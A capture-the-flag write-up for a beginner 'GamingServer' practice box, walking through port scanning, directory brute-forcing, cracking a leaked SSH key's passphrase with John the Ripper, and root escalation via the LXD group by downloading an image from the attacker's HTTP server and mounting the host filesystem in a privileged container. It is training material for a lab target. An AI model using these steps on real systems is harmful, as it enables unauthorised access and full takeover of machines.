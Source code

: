 # GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

# Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![[Pasted image 20241028194424.png]]

## /secrets
![[Pasted image 20241028194450.png]]
I got a secret file that after downloading i found that it was a `ssh RSA`
![[Pasted image 20241028194525.png]]


![[Pasted image 20241028194545.png]]
surfing through the web i get an upload directory.
## /uploads
![[Pasted image 20241028194610.png]]

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![[Pasted image 20241028194639.png]]

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



# source-code
Going back i got a comment from the dev.  
![[Pasted image 20241028194657.png]]


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![[Pasted image 20241028194715.png]]

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![[Pasted image 20241028194726.png]]
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![[Pasted image 20241028194746.png]]

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![[Pasted image 20241028194803.png]]

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![[Pasted image 20241028194829.png]]

